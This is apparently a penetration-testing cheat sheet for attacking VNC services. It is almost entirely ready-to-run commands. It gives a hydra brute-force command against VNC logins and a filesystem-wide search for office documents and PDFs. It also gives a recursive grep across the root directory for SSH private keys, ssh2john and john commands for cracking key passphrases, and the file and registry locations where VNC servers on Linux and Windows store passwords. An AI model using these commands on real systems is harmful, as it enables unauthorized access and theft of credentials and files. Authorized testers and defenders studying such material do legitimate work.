 ### Brute force

```
hydra -L <USERS_LIST> –P <PASSWORDS_LIST> -s <PORT> <IP> vnc -u -vV
```

### Connect

```
vncviewer <IP>:<PORT>
```

### File Discovery

#### Linux

#### VNC

```
Default password is stored in: ~/.vnc/passwd
```

#### File Discovery

```
for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

#### SSH Keys

```
grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"
```

#### Crack SSH Keys

| **Command**                          | **Description**          |
| ------------------------------------ | ------------------------ |
| `locate *2john`                      | Locate hashing scripts   |
| `ssh2john.py SSH.private > ssh.hash` | SSH Key to hash via john |
| `john --wordlist=WORDLIST ssh.hash`  | Crack hash using john    |
| `john ssh.hash --show`               | Show cracked hash        |

#### Windows

```
# RealVNC
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver

# TightVNC
HKEY_CURRENT_USER\Software\TightVNC\Server

# TigerVNC
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4

# UltraVNC
C:\Program Files\UltraVNC\ultravnc.ini
```
